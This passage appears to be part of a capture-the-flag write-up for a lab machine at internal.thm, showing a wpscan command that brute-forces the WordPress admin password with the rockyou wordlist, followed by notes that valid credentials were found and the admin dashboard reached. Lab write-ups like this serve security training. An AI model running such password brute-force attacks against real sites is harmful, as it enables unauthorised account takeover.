 ```shell
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
```

Valid credentials found:

![](attachments/20240401062344.png)

We are greeted with the following email
Current administration email: admin@internal.thm

![](attachments/20240401062433.png)

Selected `Remind me later`

Admin dashboard
